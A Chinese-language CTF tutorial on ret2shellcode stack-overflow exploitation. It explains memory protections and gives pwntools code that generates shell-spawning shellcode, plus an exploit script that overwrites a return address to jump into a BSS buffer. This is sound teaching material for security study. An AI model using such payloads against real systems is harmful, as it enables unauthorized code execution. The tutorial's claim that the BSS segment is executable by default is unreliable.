





# CTF教程：P35：ret2shellcode 🚀

在本节课中，我们将学习一种经典的栈溢出攻击技术——`ret2shellcode`。我们将了解其基本原理、面临的现代保护措施，以及如何在实际场景中利用它。

## 概述

`ret2shellcode` 攻击的核心思想是：攻击者通过缓冲区溢出漏洞，将一段用于获取shell的机器代码（shellcode）写入程序内存，并控制程序执行流跳转到这段代码处执行，从而获得程序控制权。

## 攻击原理与演变

上一节我们介绍了基础的栈溢出概念。本节中我们来看看如何利用溢出执行自定义代码。

这种攻击称为 `return to shellcode`。顾名思义，就是让程序返回到一段能启动shell的机器代码。

既然shellcode需要由攻击者输入，那么它必须存在于程序的某个缓冲区中。这个缓冲区可能是栈、堆或BSS段。

*   **堆缓冲区**：默认情况下，堆内存没有可执行权限。如果要将shellcode写入堆区，攻击者还需要调用如 `mprotect` 这样的系统调用来赋予其可执行权限。但既然都能控制程序调用函数了，不如直接返回到动态链接库去调用 `system` 函数。因此，将shellcode写入堆区的情况并不常见。
*   **栈与BSS段**：BSS段默认具有可执行权限。栈在计算机早期也是可执行的，但这带来了严重的安全风险。

## 现代保护措施

早期的栈溢出攻击非常直接，因为栈可执行且地址固定。但现代系统引入了多种保护机制，极大地增加了攻击难度。

### NX保护：栈不可执行

后来人们发现，允许栈执行代码会使程序极易被攻击者控制。因此，操作系统增加了一个名为 **NX** 的保护机制，即 `No-eXecutable bit`，它禁用了栈段的可执行权限。

这是一个由操作系统和程序共同实现的保护措施。在编译时，可以关闭此保护，但默认是开启的。目前，除非出题人故意考察，否则很难找到栈可执行的PWN题目。

### ASLR保护：地址空间布局随机化

**ASLR** 的全称是 `Address Space Layout Randomization`。它是一个操作系统层面的防护措施，通过随机化内存区域的加载地址来增加攻击难度。

ASLR的开关状态由一个系统全局变量控制：
*   **0**：关闭随机化。
*   **1**：部分随机化（随机化共享库、栈等）。
*   **2**：完全随机化（在1的基础上，随机化通过 `brk` 分配的堆内存）。

在开启了ASLR的系统上，**栈的加载地址每次运行都会变化**。这意味着，即使攻击者成功将shellcode写入栈中，也无法确定其具体地址，从而无法精确跳转执行。

### 保护措施总结

以下是五个常见的安全保护措施，其中三个直接针对栈溢出：

1.  **NX**：使数据区域（如栈）不可执行。
2.  **ASLR**：随机化关键内存区域的地址。
3.  **Canary**：专门为防护缓冲区溢出设计的栈保护金丝雀值。
4.  **PIE**：地址无关代码，随机化程序本身（如 `.text`, `.data`, `.bss` 段）的加载地址。
5.  **RELRO**：加强对全局偏移表（GOT）的保护。

由于栈的保护日益完善，现代 `ret2shellcode` 攻击更常选择 **BSS段** 作为目标，因为它默认可执行，且在不开启PIE保护时地址固定。



## 生成Shellcode

我们无法手写机器码，但可以借助工具生成。以下是使用 `pwntools` 库生成shellcode的方法：

以下是生成32位和64位shellcode的示例代码：





```python
from pwn import *

# 生成32位的shellcode
context(arch='i386', os='linux')
shellcode_32 = asm(shellcraft.sh())
print("32位 Shellcode:")
print(repr(shellcode_32))

# 生成64位的shellcode
context(arch='amd64', os='linux')
shellcode_64 = asm(shellcraft.sh())
print("\n64位 Shellcode:")
print(repr(shellcode_64))
```

**关键点**：在使用 `shellcraft` 生成特定架构的shellcode前，必须通过 `context()` 设置正确的架构环境，否则生成的代码可能不正确。

## 实战例题分析



现在，我们来看一道 `ret2shellcode` 的例题。程序逻辑如下：

1.  程序关闭了缓冲区。
2.  输出提示信息 “No system for you this time”，暗示没有现成的 `system` 函数可用。
3.  存在一个全局字符数组 `buf2`，位于BSS段。
4.  使用 `gets` 函数向栈上的局部变量 `s` 读取输入，造成栈溢出。
5.  随后，程序将 `s` 中的内容复制到全局数组 `buf2` 中。

**漏洞点**：`gets` 函数向 `s` 写入时没有长度限制，导致栈溢出。

**攻击思路**：
1.  虽然本题中栈也是可执行的（NX关闭），但由于ASLR的存在，我们无法知道shellcode在栈上的具体地址。
2.  但是，全局变量 `buf2` 的地址在未开启PIE保护时是固定的（例如 `0x804A080`）。我们可以通过IDA等工具静态分析得到这个地址。
3.  因此，我们可以构造攻击载荷：
    *   载荷前半部分：填充垃圾数据 + **`buf2` 的地址**（覆盖原始的返回地址）。
    *   载荷后半部分：我们的 **shellcode**。
4.  程序执行流程：
    *   `gets` 读取我们的输入，覆盖返回地址为 `buf2` 的地址。
    *   函数返回时，跳转到 `buf2` 处。
    *   此时，我们输入的shellcode已经被 `strcpy` 复制到了 `buf2` 中。
    *   CPU开始执行 `buf2` 处的shellcode，我们获得shell。

攻击流程示意图如下：



**利用脚本框架**：
一个基本的利用脚本通常包含以下步骤：

```python
from pwn import *

# 1. 设置目标架构/系统，生成shellcode
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())

# 2. 连接到远程服务器或本地进程
# io = remote('目标IP', 端口)
io = process('./目标程序')

# 3. 获取buf2的地址（需从IDA等工具获取）
buf2_addr = 0x804A080

# 4. 构造攻击载荷
# 假设需要填充 0x6c 字节才能覆盖到返回地址
payload = b'A' * 0x6c          # 填充数据
payload += p32(buf2_addr)      # 覆盖返回地址为buf2_addr
payload += shellcode           # shellcode本身会被复制到buf2

# 5. 发送载荷
io.sendline(payload)

# 6. 攻击成功，切换到交互模式
io.interactive()
```


## 总结

本节课我们一起学习了 `ret2shellcode` 攻击技术。我们了解了其核心是控制程序执行流跳转到攻击者注入的shellcode。同时，我们探讨了现代系统为对抗此类攻击引入的 **NX** 和 **ASLR** 保护机制，这迫使攻击者更多地利用BSS段等固定地址区域。最后，我们分析了一道典型例题，并学习了使用 `pwntools` 工具链生成shellcode和构造攻击载荷的基本方法。理解这些基础是学习更高级漏洞利用技术的前提。